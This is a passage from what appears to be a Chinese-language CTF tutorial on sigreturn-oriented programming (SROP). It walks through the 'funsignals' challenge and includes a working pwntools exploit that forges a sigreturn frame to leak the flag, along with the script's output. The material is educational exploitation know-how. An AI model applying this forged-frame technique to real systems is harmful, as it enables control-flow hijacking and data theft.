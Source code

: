 而且 flag 就在二进制文件里，只不过是在服务器上的那个里面，过程是完全一样的。

首先可以看到 `_start` 函数里有两个 syscall。第一个是 `read(0, $rip, 0x400)`（调用号`0x0`），它从标准输入读取 `0x400` 个字节到 `rip` 指向的地址处，也就是栈上。第二个是 `sigreturn()`（调用号`0xf`），它将从栈上读取 sigreturn frame。所以我们就可以伪造一个 frame。

那么怎样读取 flag 呢，需要一个 `write(1, &flag, 50)`，调用号为 `0x1`，而函数 `syscall` 正好为我们提供了 `syscall` 指令，构造 payload 如下：

```python
from pwn import *

elf = ELF('./funsignals_player_bin')
io = process('./funsignals_player_bin')
# io = remote('hack.bckdr.in', 9034)

context.clear()
context.arch = "amd64"

# Creating a custom frame
frame = SigreturnFrame()
frame.rax = constants.SYS_write
frame.rdi = constants.STDOUT_FILENO
frame.rsi = elf.symbols['flag']
frame.rdx = 50
frame.rip = elf.symbols['syscall']

io.send(str(frame))
io.interactive()
```

```text
$ python2 exp_funsignals.py
[*] '/home/firmy/Desktop/funsignals_player_bin'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x10000000)
    RWX:      Has RWX segments
[+] Opening connection to 127.0.0.1 on port 10001: Done
[*] Switching to interactive mode
fake_flag_here_as_original_is_at_server\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00[*] Got EOF while reading in interactive
```

如果连接的是远程服务器，`fake_flag_here_as_original_is_at_server` 会被替换成真正的 flag。

这一节我们详细介绍了 SROP 的原理，并展示了一个简单的例子，在后面的章节中，会展示其更复杂的运用，包扩结合 vDSO 的用法。

## 参考资料

- [Framing Signals—A Return to Portable Shellcode](http://www.ieee-security.org/TC/SP2014/papers/FramingSignals-AReturntoPortableShellcode.pdf)
- [slides: Framing Signals a return to portable shellcode](https://tc.gtisc.gatech.edu/bss/2014/r/srop-slides.pdf)
- [Sigreturn Oriented Programming](https://www.slideshare.net/AngelBoy1/sigreturn-ori)
- [Sigreturn Oriented Programming is a real Threat](https://subs.emis.de/LNI/Proceedings/Proceedings259/2077.pdf)
- [Sigreturn Oriented Programming (SROP) Attack攻击原理](http://www.freebuf.com/articles/network/87447.html)
